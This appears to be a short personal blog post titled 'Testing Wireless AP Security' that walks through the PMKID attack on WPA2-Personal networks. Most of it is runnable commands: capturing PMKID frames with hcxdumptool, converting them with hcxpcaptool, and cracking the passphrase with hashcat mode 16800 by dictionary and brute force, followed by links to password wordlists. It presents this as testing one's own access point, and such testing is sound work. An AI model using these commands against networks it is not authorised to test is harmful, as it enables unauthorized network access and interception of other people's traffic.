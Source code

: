 ```yaml
---
title: Testing Wireless AP Security
date: 2019-01-22 08:56:08
tags: 
    - Wifi
    - Networking
    - Security
category: Networking
---
```


### Testing Wireless AP security

A new flaw in WPA2-Personal has been found which doesn't require capturing the 4-way handshake as in KRACK. Wifi adapter will need to be capable on monitor mode. 

WPA2-EAP is not affected.  

<!--more-->

```bash
## Capture the packet
sudo hcxdumptool -o test.pcapng -i <interface logical name> --enable_status=1
```
```bash
# Kill network manager if warning shows
# warning: NetworkManager is running with pid 828
# warning: wpa_supplicant is running with pid 890
# >>> sudo kill 828 890
# To restart: sudo systemctl start NetworkManager

# Convert into suitable hashcat format
./hcxpcaptool -z test.16800 test.pcapng
```
```bash
# Dictionary attack with hashcat
hashcat -m 16800 -a 0 -w 2 -o outfile test.16800 rockyou.txt

# Bruteforce with hashcat
hashcat -m 16800 -a 3 -o oufile -session=brute test.16800 <guess mask>
```

### Password lists

Crack station: https://crackstation.net/files/crackstation-human-only.txt.gz

Seclists: https://github.com/danielmiessler/SecLists/tree/master/Passwords

Rockyou: http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
